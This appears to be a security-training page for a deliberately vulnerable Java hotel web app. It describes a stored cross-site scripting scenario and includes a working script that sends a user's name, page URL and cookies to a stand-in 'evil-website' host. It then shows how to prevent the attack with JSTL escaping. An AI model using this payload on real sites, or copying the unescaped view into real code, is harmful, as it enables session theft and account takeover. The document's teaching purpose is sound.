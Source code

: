 Java: XSS
=========

Scenario summary
----------------

The attacker will create an hotel description that has an embedded script that
will send the cookies of a user browsing the web site to the attacker website.

Code change
-----------

In the views, the view `hotel/view.jsp` will not escape the value of the hotel
description.

The *evil-website* server must be deployed for this attack to work.

Scenario description
--------------------

To test whether the injection is possible, write in the description field the
following code:

	<script>alert('hello');</script>

To send the cookies of users to an evil website, set the following code as the
description of an hotel.

	<h3>That hotel!</h3>
	<div id="myHotel">Welcome!</div>
	<script type="text/javascript">
	var data;
	data += "[user: " + $("#login a.btn-primary").text() + "]";
	data += "[url: " + document.location.href + "]";
	data += "[cookie: " + document.cookie + "]";
	var imgsrc = "http://localhost:8081/evilhotel/sendData?data=" + escape(data);
	$("<img />").attr("src", imgsrc).appendTo($("#myHotel"));
	</script>

In the *evil-website* console, the user information should appear.
The sent request can also be seen using *FireBug* or *WebScarab*.

(Don't forget to change the host with what is needed...)

Preventing the attack
---------------------

*All* data that is printed as HTML must be escaped or at least "white list"
validated.

To escape HTML using JSP, use the available JSTL:

	<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>

	<!-- valid string -->
	<c:out value="${myString}"/>
	<!-- possible injection -->
	${myString}


